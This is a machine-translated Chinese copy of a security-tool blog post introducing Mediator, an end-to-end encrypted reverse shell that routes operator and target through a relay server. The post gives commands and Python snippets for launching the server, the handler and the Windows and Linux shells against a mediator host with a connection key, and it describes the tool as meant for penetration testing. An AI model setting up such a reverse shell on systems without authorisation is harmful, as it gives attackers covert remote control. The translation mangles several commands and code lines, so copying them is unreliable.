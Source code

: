 # Mediator:一个可扩展的、端到端的加密反向外壳，采用了一种新颖的架构方法

> 原文：<https://kalilinuxtutorials.com/mediator-2/>

[![](img/b3cd93186ec250a350addc7a6d813149.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjryxMNOJytn1YWTSi-ubC6-ihmOxobupe07gUgvahE0P1rTEQV40HMRqS4LkPlxLwzVtpgz3S6hrA30iujMWBX6bGi_PwtEmNHWERMO1pCcADC9n8O44zs92zvJbyNYaisficMZJfR1YFnK9DP562PfS7VyfemMIFBCxMiiryUO3PkVUtIPGEaYaF6=s1561)

**Mediator** 是一个端到端的加密反向 shell，其中操作者和 shell 连接到一个桥接连接的“Mediator”服务器。这消除了运营商/处理者为了监听连接而设置端口转发的需要。Mediator 还允许您创建插件来扩展反向外壳的功能。

您可以将 Mediator 的脚本作为独立的可执行文件运行，也可以将其导入到其他 pentesting 和事件响应工具中。

**建筑**

受端到端加密聊天应用程序的启发，Mediator 采用了一种独特的方法来实现反向外壳的客户端/服务器模型。中介使用:

*   客户端反向外壳
*   客户处理员/操作员
*   连接两个连接的服务器

反向 shells 和处理程序使用连接密钥连接到中介服务器。服务器在端口 80 监听处理程序连接，在端口 443 监听反向 shell 连接。当客户端连接到中介时，服务器根据客户端各自的类型和连接密钥对客户端进行排队。当反向 shell 和操作符都使用相同的密钥连接到服务器时，服务器将桥接这两个连接。在那里，两个客户机之间进行密钥交换，反向 shell 和 operator 之间的所有通信都是端到端加密的。这确保了服务器不能窥探它正在传输的流。

**外挂**

插件允许您添加额外的命令，这些命令可以在运营商的主机、目标主机或两者上执行代码！有关插件的更多信息，请参考插件目录中的自述文件。

**指令**

**服务器**

客户端脚本可以在 Windows 或 Linux 上运行，但是您需要在 Linux 主机上安装服务器(mediator.py)。服务器是纯 Python，所以不需要安装依赖项。您可以使用以下命令运行服务器脚本

**$ python3 mediator.py**

或者，您可以使用提供的 Docker 文件构建 Docker 映像，并在容器中运行它(确保发布端口 80 和 443)。

**客户**

您需要安装 requirements.txt 中的依赖项，以便客户端能够工作。您可以使用以下命令来完成此操作:

**$ pip 3 install-r requirements . txt**

请参见底部的*提示和提醒*,获得关于分发客户端的帮助，而无需担心依赖性。

处理程序和反向 shell 可以在其他 Python 脚本中使用，也可以直接通过命令行使用。在这两种情况下，客户端都可以接受服务器地址和连接密钥的参数。这些参数的用法如下所述。

**中介服务器地址**

对于 *Python 脚本*的用法，在实例化时需要中介主机的地址:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com ")
operator . run()**

*windows shell 类*

**从 windowsTarget 导入 windows rshell
shell = windows rsshell(mediator host = " example . com ")
shell . run()**

如果直接从 shell 执行客户端脚本*，您可以将地址硬编码在脚本的底部，或者可以将服务器地址指定为带有`**-s**`或`**--server**`标志的参数:*

*handle . py*

**$ python 3 handler . py-s example.com**

*windowsTarget.py*

**python windows target . py-s example.com**

**连接密钥**

当两个处理程序或两个反向 shells 使用相同的连接键连接到中介服务器时，只有第一个连接排队等待匹配。在排队的连接超时(30 秒)或与对应的连接匹配之前，尝试使用相同连接密钥进行连接的所有其他相同类型的客户端都将被丢弃。

重要的是要确保每个处理程序都使用唯一的连接密钥，以避免竞争情况导致错误的 shell 被提供给操作符。

仅前缀为“#”的键！ConnectionKey_ "将被服务器接受。默认的连接密钥是“#！ConnectionKey_CHANGE_ME！！!"。

要更改用于 *Python 脚本*用途的连接密钥，可以选择在实例化时提供连接密钥:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
operator . run()**

*Linux shell 类*

**从 linuxTarget 导入 Linux rshell
shell = Linux rshell(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
shell . run()**

如果直接从 shell 中执行客户端脚本*，您可以在脚本底部硬编码连接密钥，也可以使用`**-c**`或`**--connection-key**`标志将连接密钥指定为参数:*

*handle . py*

**$ python 3 handler . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

*windowsTarget.py*

**python windows target . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

[**Download**](https://github.com/lawndoc/mediator)